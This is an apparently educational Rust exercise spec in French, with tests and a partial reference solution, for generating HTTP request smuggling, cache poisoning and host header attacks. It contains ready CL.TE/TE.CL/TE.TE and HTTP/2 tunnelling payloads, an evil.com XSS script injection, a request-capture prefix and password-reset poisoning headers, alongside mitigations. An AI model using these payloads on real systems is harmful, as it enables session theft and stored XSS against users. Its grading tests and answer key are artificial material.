

# Exercice 3.3.10-a : http_smuggling_cache_attacks

**Module :**
3.3.10 — HTTP Smuggling & Cache Attacks

**Concept :**
a — HTTP Request Smuggling, Web Cache Poisoning, Host Header Attacks

**Difficulté :**
★★★★★★★★★☆ (9/10)

**Type :**
code

**Tiers :**
1 — Concept isolé

**Langage :**
Rust Edition 2024

**Prérequis :**
- Module 3.3.1 (Protocol Dissector)
- Module 3.3.2 (REST API Security)
- Compréhension du protocole HTTP/1.1
- Connaissance des architectures reverse proxy

**Domaines :**
Net, Crypto, Struct

**Durée estimée :**
300 min

**XP Base :**
500

**Complexité :**
T3 O(n²) × S2 O(n)

---

## 📐 SECTION 1 : PROTOTYPE & CONSIGNE

### 1.1 Obligations

**Fichier à rendre :**
`http_smuggling_cache_attacks.rs`

**Fonctions autorisées :**
- `std::collections::*`
- `serde_json`
- `regex`
- Fonctions de manipulation de chaînes

**Fonctions interdites :**
- Toute bibliothèque HTTP externe
- Requêtes réseau réelles
- `unsafe` blocks

---

### 1.2 Consigne

#### 1.2.1 🎬 Contexte Fun — "INCEPTION" : Les Rêves dans les Rêves HTTP

**🌀 "You mustn't be afraid to dream a little bigger, darling." — Eames**

Dans **Inception** de Christopher Nolan, Dom Cobb et son équipe plantent des idées dans l'esprit des victimes en naviguant à travers des **couches de rêves imbriquées**. Chaque niveau de rêve a ses propres règles, son propre temps, et ce qui se passe à un niveau affecte les autres.

**HTTP Request Smuggling, c'est exactement ça :**
- **Le rêve de niveau 1 (Frontend)** : Nginx voit une requête d'une certaine façon
- **Le rêve de niveau 2 (Backend)** : Apache interprète la MÊME requête différemment
- **L'inception** : Tu "plantes" une requête cachée qui n'existe que pour le backend

Comme l'équipe d'Inception qui exploite les **inconsistences entre les niveaux de rêves**, tu vas exploiter les **inconsistences entre les serveurs HTTP** pour faire passer des requêtes clandestines.

**Le Cache Poisoning**, c'est comme laisser un **totem piégé** dans le rêve partagé :
- Tu empoisonnes le cache avec du contenu malveillant
- Tous les futurs visiteurs reçoivent ta version corrompue
- L'idée (malveillante) se propage à tous !

**Les personnages de ton équipe :**
- **Content-Length** (Arthur) : Précis, méthodique, compte chaque octet
- **Transfer-Encoding** (Eames) : Transformiste, change la façon de voir les données
- **Host Header** (Ariadne) : Architecte qui définit où vont les requêtes
- **Cache** (Yusuf) : Le chimiste qui garde les rêves en mémoire

---

#### 1.2.2 📚 Énoncé Académique

**Contexte technique :**

Les architectures web modernes utilisent souvent plusieurs serveurs en cascade :
- **Frontend (Reverse Proxy)** : Nginx, HAProxy, CDN
- **Backend (Application Server)** : Apache, Node.js, Gunicorn
- **Cache** : Varnish, Redis, CDN cache

**HTTP Request Smuggling** exploite les différences d'interprétation des en-têtes HTTP entre ces composants, notamment :
- `Content-Length` : Indique la taille du body en octets
- `Transfer-Encoding: chunked` : Le body est découpé en morceaux (chunks)

Quand les deux headers sont présents, les serveurs peuvent interpréter différemment lequel utiliser.

**Ta mission :**

Écrire une fonction `http_smuggling_cache_attacks` qui analyse une architecture web et génère des stratégies d'attaque appropriées.

**Entrée (JSON) :**
```json
{
  "architecture": {
    "frontend": "Nginx",
    "backend": "Apache",
    "cache": "Varnish"
  },
  "test_results": {
    "cl_te_test": {"response_delay": true, "timeout_seconds": 5},
    "te_cl_test": {"response_delay": false}
  },
  "unkeyed_headers": ["X-Forwarded-Host", "X-Original-URL"],
  "target_endpoints": ["/admin", "/api/users", "/home"]
}
```

**Sortie (JSON) :**
```json
{
  "smuggling_analysis": {
    "vulnerability_type": "CL.TE",
    "detection_method": "Timing-based detection",
    "confidence": "HIGH",
    "explanation": "Frontend uses Content-Length, Backend uses Transfer-Encoding"
  },
  "exploit_payloads": [
    {
      "attack_type": "Request Hijacking",
      "payload": "POST / HTTP/1.1\\r\\nHost: target.com\\r\\nContent-Length: 49\\r\\nTransfer-Encoding: chunked\\r\\n\\r\\n0\\r\\n\\r\\nGET /admin HTTP/1.1\\r\\nHost: target.com\\r\\n\\r\\n",
      "description": "Hijack next user's request to access /admin",
      "severity": "CRITICAL"
    }
  ],
  "cache_poisoning": {
    "vulnerable_headers": ["X-Forwarded-Host"],
    "attack_vector": "Unkeyed header injection",
    "payload": {
      "header": "X-Forwarded-Host: evil.com",
      "cached_response": "<script src=//evil.com/xss.js></script>",
      "cache_key": "/home"
    },
    "impact": "Stored XSS via cache poisoning affecting all users"
  },
  "host_header_attacks": [
    {
      "attack_type": "Password Reset Poisoning",
      "payload": "Host: evil.com",
      "description": "Poison password reset links with attacker domain"
    }
  ],
  "chained_attacks": [
    {
      "name": "Smuggling + Cache Poison",
      "steps": [
        "Use CL.TE to smuggle request with X-Forwarded-Host: evil.com",
        "Smuggled request targets cacheable endpoint /home",
        "Backend generates response with evil.com in links",
        "Cache stores poisoned response for all users"
      ],
      "severity": "CRITICAL"
    }
  ],
  "mitigations": [
    "Normalize Content-Length/Transfer-Encoding handling",
    "Disable HTTP/1.0 support",
    "Include all relevant headers in cache key",
    "Use HTTP/2 end-to-end"
  ]
}
```

**Contraintes :**
- Détecter automatiquement le type de smuggling (CL.TE, TE.CL, TE.TE)
- Générer des payloads syntaxiquement corrects
- Identifier les opportunités de cache poisoning
- Proposer des attaques chaînées réalistes

**Exemples :**

| Scénario | Type Détecté | Attaque Principale |
|----------|--------------|-------------------|
| Nginx → Apache, CL.TE positif | CL.TE | Request Hijacking |
| HAProxy → Node.js, TE.CL positif | TE.CL | Response Queue Poisoning |
| Varnish cache avec X-Forwarded-Host unkeyed | Cache Poison | Stored XSS |
| CDN → Origin avec Host header reflection | Host Header | Password Reset Poison |

---

### 1.3 Prototype

```rust
use serde::{Deserialize, Serialize};
use std::collections::HashMap;

/// Point d'entrée principal - "The Dream is Collapsing!"
pub fn http_smuggling_cache_attacks(input_json: &str) -> String;
```

---

## 💡 SECTION 2 : LE SAVIEZ-VOUS ?

### 2.1 La Découverte du HTTP Smuggling

**HTTP Request Smuggling** a été découvert en 2005 par Watchfire (Amit Klein), mais c'est **James Kettle** (PortSwigger) qui l'a remis au goût du jour en 2019 avec ses recherches révolutionnaires présentées à DEF CON et Black Hat.

### 2.2 Pourquoi ça existe encore ?

La RFC 7230 stipule clairement : *"If a message is received with both a Transfer-Encoding and a Content-Length header field, the Transfer-Encoding overrides the Content-Length."*

**MAIS** :
- Apache suit la RFC (priorité à TE)
- Nginx peut être configuré différemment
- Les CDN ont leurs propres comportements
- Le HTTP/1.0 legacy complique tout

### 2.3 Impact Réel

- **2020** : Tesla - Cache Poisoning critique
- **2021** : PayPal - Request Smuggling permettant le vol de sessions
- **2022** : AWS ALB - Vulnérabilité de smuggling
- **2023** : Multiples CDN affectés (Cloudflare, Akamai patchés)

### 2.5 DANS LA VRAIE VIE

| Métier | Utilisation |
|--------|-------------|
| **Pentester Web** | Test des architectures reverse proxy |
| **Bug Bounty Hunter** | Cibles high-value sur CDN/WAF bypass |
| **Security Engineer** | Configuration sécurisée des proxies |
| **DevOps** | Hardening des architectures microservices |
| **SOC Analyst** | Détection des patterns de smuggling |

---

## 🖥️ SECTION 3 : EXEMPLE D'UTILISATION

### 3.0 Session bash

```bash
$ ls
http_smuggling_cache_attacks.rs  main.rs  Cargo.toml

$ cargo build --release

$ cargo run
🌀 HTTP Smuggling & Cache Attacks - "Time is not on our side"
━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━

[TEST 1] CL.TE Detection - Nginx → Apache
✓ Smuggling Type: CL.TE detected via timing differential
✓ Exploit Payload: Request hijacking crafted
✓ Attack Scenarios: 3 generated

[TEST 2] Cache Poisoning - Unkeyed Headers
✓ Vulnerable Header: X-Forwarded-Host identified
✓ Cache Key Analysis: /home cacheable
✓ Stored XSS: Payload generated

[TEST 3] Host Header Attacks
✓ Password Reset Poisoning: Viable
✓ Web Cache Deception: Potential

[TEST 4] Chained Attack Generation
✓ Smuggling + Cache: Critical chain identified
✓ 4-step exploitation path generated

━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━
📊 Résultats: 15/15 tests passés
🎬 "We need to go deeper!" - All levels exploited
```

---

### 3.1 🔥 BONUS AVANCÉ (OPTIONNEL)

**Difficulté Bonus :**
🧠 (12/10)

**Récompense :**
XP ×6

**Time Complexity attendue :**
O(n²)

**Space Complexity attendue :**
O(n)

**Domaines Bonus :**
`Net, Crypto, DP`

#### 3.1.1 Consigne Bonus

**🌀 "INCEPTION NIVEAU 3" — HTTP/2 Smuggling & Request Tunneling**

Le HTTP/2 était censé résoudre le smuggling... **Jusqu'à ce qu'on découvre H2.CL et H2.TE !**

**Ta mission bonus :**

Implémenter la détection et exploitation des nouvelles variantes :
1. **H2.CL Desync** : HTTP/2 → HTTP/1.1 avec Content-Length
2. **H2.TE Desync** : HTTP/2 → HTTP/1.1 avec Transfer-Encoding
3. **Request Tunneling** : Contourner les contrôles du frontend
4. **Browser-Powered Smuggling** : Exploiter via fetch() côté client

**Entrée Bonus :**
```json
{
  "http2_enabled": true,
  "downgrade_behavior": "h2_to_h1",
  "h2_cl_test": {"injected_cl": "100", "response_truncated": true},
  "h2_te_test": {"chunked_accepted": true},
  "frontend_controls": {
    "blocked_paths": ["/admin", "/internal"],
    "blocked_methods": ["TRACE", "TRACK"]
  }
}
```

**Sortie Bonus :**
```json
{
  "h2_vulnerabilities": {
    "h2_cl_desync": {
      "vulnerable": true,
      "payload": ":method: POST\\n:path: /\\ncontent-length: 0\\n\\nGET /admin HTTP/1.1\\r\\nHost: internal\\r\\n\\r\\n",
      "bypass": "Frontend path restriction bypassed via tunneling"
    }
  },
  "request_tunneling": {
    "technique": "Encapsulated HTTP/1.1 in HTTP/2 body",
    "capabilities": ["Path restriction bypass", "Method restriction bypass", "Header injection"]
  },
  "browser_powered": {
    "fetch_payload": "fetch('/', {method: 'POST', body: smuggled_request})",
    "same_origin_exploit": true
  }
}
```

#### 3.1.2 Prototype Bonus

```rust
pub fn http2_smuggling_advanced(input_json: &str) -> String;
```

#### 3.1.3 Ce qui change par rapport à l'exercice de base

| Aspect | Base | Bonus |
|--------|------|-------|
| Protocole | HTTP/1.1 only | HTTP/2 + downgrade |
| Smuggling Types | CL.TE, TE.CL | H2.CL, H2.TE, Tunneling |
| Vecteur | Server-to-server | Browser-powered possible |
| Bypass | Cache poisoning | Frontend control bypass |
| Complexité | O(n) | O(n²) avec graphe d'attaques |

---

## ✅❌ SECTION 4 : ZONE CORRECTION

### 4.1 Moulinette

| Test | Input | Expected | Points |
|------|-------|----------|--------|
| `test_cl_te_detection` | Nginx→Apache, CL.TE delay | `CL.TE` type, timing method | 10 |
| `test_te_cl_detection` | HAProxy→Node, TE.CL delay | `TE.CL` type | 10 |
| `test_te_te_detection` | Both TE variants | `TE.TE` with obfuscation | 10 |
| `test_no_smuggling` | Consistent parsing | `NOT_VULNERABLE` | 5 |
| `test_payload_cl_te` | CL.TE detected | Valid CL.TE payload | 15 |
| `test_payload_te_cl` | TE.CL detected | Valid TE.CL payload | 15 |
| `test_cache_unkeyed` | X-Forwarded-Host unkeyed | Cache poison attack | 10 |
| `test_cache_keyed` | All headers keyed | No cache poison | 5 |
| `test_host_header` | Host reflection | Password reset poison | 10 |
| `test_chain_attack` | Multiple vulns | Chained exploitation | 10 |

### 4.2 main.rs de test

```rust
use serde_json::{json, Value};

mod http_smuggling_cache_attacks;
use http_smuggling_cache_attacks::http_smuggling_cache_attacks;

fn main() {
    println!("🌀 HTTP Smuggling & Cache Attacks - Test Suite");
    println!("━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━\n");

    let mut passed = 0;
    let mut total = 0;

    // Test 1: CL.TE Detection
    total += 1;
    let input = json!({
        "architecture": {
            "frontend": "Nginx",
            "backend": "Apache",
            "cache": "Varnish"
        },
        "test_results": {
            "cl_te_test": {"response_delay": true, "timeout_seconds": 5},
            "te_cl_test": {"response_delay": false}
        },
        "unkeyed_headers": ["X-Forwarded-Host"],
        "target_endpoints": ["/admin", "/home"]
    });

    let result = http_smuggling_cache_attacks(&input.to_string());
    let parsed: Value = serde_json::from_str(&result).unwrap();

    if parsed["smuggling_analysis"]["vulnerability_type"] == "CL.TE" {
        println!("✓ Test 1: CL.TE detection");
        passed += 1;
    } else {
        println!("✗ Test 1: CL.TE detection failed");
    }

    // Test 2: TE.CL Detection
    total += 1;
    let input = json!({
        "architecture": {
            "frontend": "HAProxy",
            "backend": "NodeJS",
            "cache": null
        },
        "test_results": {
            "cl_te_test": {"response_delay": false},
            "te_cl_test": {"response_delay": true, "timeout_seconds": 10}
        },
        "unkeyed_headers": [],
        "target_endpoints": ["/api"]
    });

    let result = http_smuggling_cache_attacks(&input.to_string());
    let parsed: Value = serde_json::from_str(&result).unwrap();

    if parsed["smuggling_analysis"]["vulnerability_type"] == "TE.CL" {
        println!("✓ Test 2: TE.CL detection");
        passed += 1;
    } else {
        println!("✗ Test 2: TE.CL detection failed");
    }

    // Test 3: No Smuggling
    total += 1;
    let input = json!({
        "architecture": {
            "frontend": "Nginx",
            "backend": "Nginx",
            "cache": null
        },
        "test_results": {
            "cl_te_test": {"response_delay": false},
            "te_cl_test": {"response_delay": false}
        },
        "unkeyed_headers": [],
        "target_endpoints": []
    });

    let result = http_smuggling_cache_attacks(&input.to_string());
    let parsed: Value = serde_json::from_str(&result).unwrap();

    if parsed["smuggling_analysis"]["vulnerability_type"] == "NOT_VULNERABLE"
       || parsed["smuggling_analysis"]["confidence"] == "NONE" {
        println!("✓ Test 3: No smuggling detected correctly");
        passed += 1;
    } else {
        println!("✗ Test 3: False positive on non-vulnerable target");
    }

    // Test 4: Cache Poisoning via Unkeyed Header
    total += 1;
    let input = json!({
        "architecture": {
            "frontend": "CloudFront",
            "backend": "Origin",
            "cache": "CloudFront"
        },
        "test_results": {
            "cl_te_test": {"response_delay": false},
            "te_cl_test": {"response_delay": false}
        },
        "unkeyed_headers": ["X-Forwarded-Host", "X-Original-URL"],
        "target_endpoints": ["/home", "/login"]
    });

    let result = http_smuggling_cache_attacks(&input.to_string());
    let parsed: Value = serde_json::from_str(&result).unwrap();

    if parsed["cache_poisoning"]["vulnerable_headers"].as_array().unwrap().len() > 0 {
        println!("✓ Test 4: Cache poisoning via unkeyed headers");
        passed += 1;
    } else {
        println!("✗ Test 4: Cache poisoning not detected");
    }

    // Test 5: CL.TE Payload Validation
    total += 1;
    let input = json!({
        "architecture": {
            "frontend": "Nginx",
            "backend": "Apache",
            "cache": null
        },
        "test_results": {
            "cl_te_test": {"response_delay": true, "timeout_seconds": 5},
            "te_cl_test": {"response_delay": false}
        },
        "unkeyed_headers": [],
        "target_endpoints": ["/admin"]
    });

    let result = http_smuggling_cache_attacks(&input.to_string());
    let parsed: Value = serde_json::from_str(&result).unwrap();

    let payload = parsed["exploit_payloads"][0]["payload"].as_str().unwrap_or("");
    if payload.contains("Content-Length") && payload.contains("Transfer-Encoding")
       && payload.contains("0\\r\\n\\r\\n") {
        println!("✓ Test 5: Valid CL.TE payload structure");
        passed += 1;
    } else {
        println!("✗ Test 5: Invalid CL.TE payload");
    }

    // Test 6: Host Header Attack
    total += 1;
    let input = json!({
        "architecture": {
            "frontend": "Nginx",
            "backend": "Django",
            "cache": null
        },
        "test_results": {
            "cl_te_test": {"response_delay": false},
            "te_cl_test": {"response_delay": false}
        },
        "unkeyed_headers": [],
        "target_endpoints": ["/password-reset"],
        "host_header_reflection": true
    });

    let result = http_smuggling_cache_attacks(&input.to_string());
    let parsed: Value = serde_json::from_str(&result).unwrap();

    if parsed["host_header_attacks"].as_array().map(|a| a.len() > 0).unwrap_or(false) {
        println!("✓ Test 6: Host header attack identified");
        passed += 1;
    } else {
        println!("✗ Test 6: Host header attack missed");
    }

    // Test 7: Chained Attack
    total += 1;
    let input = json!({
        "architecture": {
            "frontend": "Nginx",
            "backend": "Apache",
            "cache": "Varnish"
        },
        "test_results": {
            "cl_te_test": {"response_delay": true, "timeout_seconds": 5},
            "te_cl_test": {"response_delay": false}
        },
        "unkeyed_headers": ["X-Forwarded-Host"],
        "target_endpoints": ["/home"]
    });

    let result = http_smuggling_cache_attacks(&input.to_string());
    let parsed: Value = serde_json::from_str(&result).unwrap();

    if parsed["chained_attacks"].as_array().map(|a| a.len() > 0).unwrap_or(false) {
        println!("✓ Test 7: Chained attack strategy generated");
        passed += 1;
    } else {
        println!("✗ Test 7: No chained attack generated");
    }

    // Test 8: TE.TE with Obfuscation
    total += 1;
    let input = json!({
        "architecture": {
            "frontend": "Custom",
            "backend": "Custom",
            "cache": null
        },
        "test_results": {
            "cl_te_test": {"response_delay": false},
            "te_cl_test": {"response_delay": false},
            "te_te_test": {
                "obfuscation_variants": [
                    {"variant": "Transfer-Encoding: xchunked", "response_diff": true},
                    {"variant": "Transfer-Encoding : chunked", "response_diff": true}
                ]
            }
        },
        "unkeyed_headers": [],
        "target_endpoints": []
    });

    let result = http_smuggling_cache_attacks(&input.to_string());
    let parsed: Value = serde_json::from_str(&result).unwrap();

    if parsed["smuggling_analysis"]["vulnerability_type"] == "TE.TE" {
        println!("✓ Test 8: TE.TE obfuscation detected");
        passed += 1;
    } else {
        println!("✗ Test 8: TE.TE detection failed");
    }

    // Test 9: Mitigation Recommendations
    total += 1;
    let input = json!({
        "architecture": {
            "frontend": "Nginx",
            "backend": "Apache",
            "cache": "Varnish"
        },
        "test_results": {
            "cl_te_test": {"response_delay": true, "timeout_seconds": 5},
            "te_cl_test": {"response_delay": false}
        },
        "unkeyed_headers": ["X-Forwarded-Host"],
        "target_endpoints": ["/admin"]
    });

    let result = http_smuggling_cache_attacks(&input.to_string());
    let parsed: Value = serde_json::from_str(&result).unwrap();

    if parsed["mitigations"].as_array().map(|a| a.len() >= 3).unwrap_or(false) {
        println!("✓ Test 9: Mitigation recommendations provided");
        passed += 1;
    } else {
        println!("✗ Test 9: Insufficient mitigations");
    }

    // Test 10: Empty/Invalid Input
    total += 1;
    let input = json!({
        "architecture": {},
        "test_results": {},
        "unkeyed_headers": [],
        "target_endpoints": []
    });

    let result = http_smuggling_cache_attacks(&input.to_string());
    let parsed: Value = serde_json::from_str(&result).unwrap();

    if parsed.get("error").is_some() || parsed["smuggling_analysis"]["confidence"] == "NONE" {
        println!("✓ Test 10: Invalid input handled gracefully");
        passed += 1;
    } else {
        println!("✗ Test 10: Invalid input not handled");
    }

    println!("\n━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━");
    println!("📊 Résultats: {}/{} tests passés", passed, total);

    if passed == total {
        println!("🌀 \"The seed has been planted\" - All tests passed!");
    } else {
        println!("💭 \"The dream is collapsing\" - Some tests failed");
    }
}
```

### 4.3 Solution de référence

```rust
use serde::{Deserialize, Serialize};
use serde_json::{json, Value};
use std::collections::HashMap;

#[derive(Debug, Serialize, Deserialize)]
struct Architecture {
    frontend: Option<String>,
    backend: Option<String>,
    cache: Option<String>,
}

#[derive(Debug, Serialize, Deserialize)]
struct TestDelay {
    response_delay: bool,
    #[serde(default)]
    timeout_seconds: Option<u32>,
}

#[derive(Debug, Serialize, Deserialize)]
struct ObfuscationVariant {
    variant: String,
    response_diff: bool,
}

#[derive(Debug, Serialize, Deserialize)]
struct TeTeTest {
    obfuscation_variants: Vec<ObfuscationVariant>,
}

#[derive(Debug, Serialize, Deserialize)]
struct TestResults {
    #[serde(default)]
    cl_te_test: Option<TestDelay>,
    #[serde(default)]
    te_cl_test: Option<TestDelay>,
    #[serde(default)]
    te_te_test: Option<TeTeTest>,
}

#[derive(Debug, Serialize, Deserialize)]
struct Input {
    architecture: Architecture,
    test_results: TestResults,
    #[serde(default)]
    unkeyed_headers: Vec<String>,
    #[serde(default)]
    target_endpoints: Vec<String>,
    #[serde(default)]
    host_header_reflection: Option<bool>,
}

#[derive(Debug, Clone)]
enum SmugglingType {
    ClTe,
    TeCl,
    TeTe,
    NotVulnerable,
}

impl SmugglingType {
    fn as_str(&self) -> &'static str {
        match self {
            SmugglingType::ClTe => "CL.TE",
            SmugglingType::TeCl => "TE.CL",
            SmugglingType::TeTe => "TE.TE",
            SmugglingType::NotVulnerable => "NOT_VULNERABLE",
        }
    }
}

pub fn http_smuggling_cache_attacks(input_json: &str) -> String {
    // Parse input
    let input: Input = match serde_json::from_str(input_json) {
        Ok(i) => i,
        Err(e) => {
            return json!({
                "error": format!("Invalid input: {}", e),
                "smuggling_analysis": {
                    "vulnerability_type": "UNKNOWN",
                    "confidence": "NONE"
                }
            }).to_string();
        }
    };

    // Detect smuggling type
    let (smuggling_type, detection_method, confidence) = detect_smuggling_type(&input.test_results);

    // Generate exploit payloads
    let exploit_payloads = generate_exploit_payloads(&smuggling_type, &input.target_endpoints);

    // Analyze cache poisoning opportunities
    let cache_poisoning = analyze_cache_poisoning(&input.unkeyed_headers, &input.target_endpoints);

    // Analyze host header attacks
    let host_header_attacks = analyze_host_header(&input);

    // Generate chained attacks
    let chained_attacks = generate_chained_attacks(
        &smuggling_type,
        &input.unkeyed_headers,
        input.architecture.cache.is_some(),
    );

    // Generate mitigations
    let mitigations = generate_mitigations(&smuggling_type, &input.unkeyed_headers);

    // Build response
    let response = json!({
        "smuggling_analysis": {
            "vulnerability_type": smuggling_type.as_str(),
            "detection_method": detection_method,
            "confidence": confidence,
            "explanation": get_smuggling_explanation(&smuggling_type, &input.architecture)
        },
        "exploit_payloads": exploit_payloads,
        "cache_poisoning": cache_poisoning,
        "host_header_attacks": host_header_attacks,
        "chained_attacks": chained_attacks,
        "mitigations": mitigations
    });

    response.to_string()
}

fn detect_smuggling_type(test_results: &TestResults) -> (SmugglingType, String, String) {
    // Check CL.TE
    if let Some(cl_te) = &test_results.cl_te_test {
        if cl_te.response_delay {
            return (
                SmugglingType::ClTe,
                "Timing-based detection: Frontend uses Content-Length, Backend uses Transfer-Encoding".to_string(),
                "HIGH".to_string(),
            );
        }
    }

    // Check TE.CL
    if let Some(te_cl) = &test_results.te_cl_test {
        if te_cl.response_delay {
            return (
                SmugglingType::TeCl,
                "Timing-based detection: Frontend uses Transfer-Encoding, Backend uses Content-Length".to_string(),
                "HIGH".to_string(),
            );
        }
    }

    // Check TE.TE with obfuscation
    if let Some(te_te) = &test_results.te_te_test {
        for variant in &te_te.obfuscation_variants {
            if variant.response_diff {
                return (
                    SmugglingType::TeTe,
                    format!("TE.TE via obfuscation: {}", variant.variant),
                    "MEDIUM".to_string(),
                );
            }
        }
    }

    (
        SmugglingType::NotVulnerable,
        "No timing differential detected".to_string(),
        "NONE".to_string(),
    )
}

fn get_smuggling_explanation(smuggling_type: &SmugglingType, arch: &Architecture) -> String {
    let frontend = arch.frontend.as_deref().unwrap_or("Unknown");
    let backend = arch.backend.as_deref().unwrap_or("Unknown");

    match smuggling_type {
        SmugglingType::ClTe => format!(
            "{} (frontend) processes Content-Length first, while {} (backend) processes Transfer-Encoding. \
            This allows smuggling additional requests in the body.",
            frontend, backend
        ),
        SmugglingType::TeCl => format!(
            "{} (frontend) processes Transfer-Encoding first, while {} (backend) processes Content-Length. \
            Chunked encoding can hide extra requests.",
            frontend, backend
        ),
        SmugglingType::TeTe => format!(
            "Both {} and {} use Transfer-Encoding, but handle obfuscated variants differently. \
            Variations like 'Transfer-Encoding: xchunked' may be processed inconsistently.",
            frontend, backend
        ),
        SmugglingType::NotVulnerable =>
            "No request smuggling vulnerability detected. Both servers parse HTTP consistently.".to_string(),
    }
}

fn generate_exploit_payloads(smuggling_type: &SmugglingType, targets: &[String]) -> Vec<Value> {
    let mut payloads = Vec::new();

    match smuggling_type {
        SmugglingType::ClTe => {
            // Basic CL.TE payload
            let smuggled_path = targets.first().map(|s| s.as_str()).unwrap_or("/admin");
            let smuggled_request = format!("GET {} HTTP/1.1\\r\\nHost: target.com\\r\\n\\r\\n", smuggled_path);
            let smuggled_len = smuggled_request.len();

            payloads.push(json!({
                "attack_type": "Request Hijacking",
                "payload": format!(
                    "POST / HTTP/1.1\\r\\n\
                    Host: target.com\\r\\n\
                    Content-Length: {}\\r\\n\
                    Transfer-Encoding: chunked\\r\\n\\r\\n\
                    0\\r\\n\\r\\n{}",
                    smuggled_len + 5, smuggled_request
                ),
                "description": format!("Smuggle request to {} by prefixing next user's request", smuggled_path),
                "severity": "CRITICAL"
            }));

            // Request prefix attack
            payloads.push(json!({
                "attack_type": "Request Prefix",
                "payload": "POST / HTTP/1.1\\r\\n\
                    Host: target.com\\r\\n\
                    Content-Length: 30\\r\\n\
                    Transfer-Encoding: chunked\\r\\n\\r\\n\
                    0\\r\\n\\r\\n\
                    GET /steal?x=",
                "description": "Capture next user's request as query parameter",
                "severity": "HIGH"
            }));
        }
        SmugglingType::TeCl => {
            let smuggled_path = targets.first().map(|s| s.as_str()).unwrap_or("/admin");

            payloads.push(json!({
                "attack_type": "Request Hijacking",
                "payload": format!(
                    "POST / HTTP/1.1\\r\\n\
                    Host: target.com\\r\\n\
                    Content-Length: 4\\r\\n\
                    Transfer-Encoding: chunked\\r\\n\\r\\n\
                    5e\\r\\n\
                    GPOST / HTTP/1.1\\r\\n\
                    Host: target.com\\r\\n\
                    Content-Length: 15\\r\\n\\r\\n\
                    x=1\\r\\n\
                    0\\r\\n\\r\\n"
                ),
                "description": "TE.CL smuggling to inject request",
                "severity": "CRITICAL"
            }));
        }
        SmugglingType::TeTe => {
            payloads.push(json!({
                "attack_type": "TE.TE Obfuscation",
                "payload": "POST / HTTP/1.1\\r\\n\
                    Host: target.com\\r\\n\
                    Content-Length: 4\\r\\n\
                    Transfer-Encoding: chunked\\r\\n\
                    Transfer-Encoding: xchunked\\r\\n\\r\\n\
                    0\\r\\n\\r\\n\
                    GET /admin HTTP/1.1\\r\\nHost: target.com\\r\\n\\r\\n",
                "description": "Exploit differential handling of obfuscated TE headers",
                "severity": "HIGH"
            }));
        }
        SmugglingType::NotVulnerable => {}
    }

    payloads
}

fn analyze_cache_poisoning(unkeyed_headers: &[String], targets: &[String]) -> Value {
    if unkeyed_headers.is_empty() {
        return json!({
            "vulnerable_headers": [],
            "attack_vector": "No unkeyed headers identified",
            "payload": null,
            "impact": "Cache poisoning not viable without unkeyed headers"
        });
    }

    let mut attacks = Vec::new();

    for header in unkeyed_headers {
        let (payload, cached_response, impact) = match header.as_str() {
            "X-Forwarded-Host" => (
                format!("{}: evil.com", header),
                "<script src=//evil.com/xss.js></script>",
                "Stored XSS via host header reflection in cached response"
            ),
            "X-Original-URL" | "X-Rewrite-URL" => (
                format!("{}: /admin", header),
                "Admin panel content served to all users",
                "Access control bypass via URL rewriting"
            ),
            "X-Forwarded-Scheme" => (
                format!("{}: http", header),
                "http:// links in cached response",
                "SSL stripping via cached mixed content"
            ),
            _ => (
                format!("{}: malicious-value", header),
                "Reflected malicious content",
                "Depends on application behavior"
            ),
        };

        attacks.push(json!({
            "header": header,
            "payload": payload,
            "cached_response": cached_response
        }));
    }

    let primary_target = targets.first().map(|s| s.as_str()).unwrap_or("/home");

    json!({
        "vulnerable_headers": unkeyed_headers,
        "attack_vector": "Unkeyed header injection",
        "payload": {
            "header": attacks.first().map(|a| a["payload"].clone()).unwrap_or(Value::Null),
            "cached_response": attacks.first().map(|a| a["cached_response"].clone()).unwrap_or(Value::Null),
            "cache_key": primary_target
        },
        "impact": "Stored XSS via cache poisoning affecting all users",
        "all_vectors": attacks
    })
}

fn analyze_host_header(input: &Input) -> Vec<Value> {
    let mut attacks = Vec::new();

    // Check for host header reflection
    if input.host_header_reflection.unwrap_or(false) {
        attacks.push(json!({
            "attack_type": "Password Reset Poisoning",
            "payload": "Host: evil.com",
            "description": "Password reset links will contain evil.com domain, capturing tokens",
            "prerequisites": ["Application reflects Host header in password reset emails"],
            "severity": "HIGH"
        }));

        attacks.push(json!({
            "attack_type": "Web Cache Deception",
            "payload": "Host: target.com\\r\\nX-Forwarded-Host: evil.com",
            "description": "Serve cached responses with malicious host in links",
            "severity": "MEDIUM"
        }));
    }

    // Generic host header attacks
    attacks.push(json!({
        "attack_type": "Host Header SSRF",
        "payload": "Host: internal-service.local",
        "description": "Access internal services via host header routing",
        "severity": "HIGH"
    }));

    attacks
}

fn generate_chained_attacks(
    smuggling_type: &SmugglingType,
    unkeyed_headers: &[String],
    has_cache: bool,
) -> Vec<Value> {
    let mut chains = Vec::new();

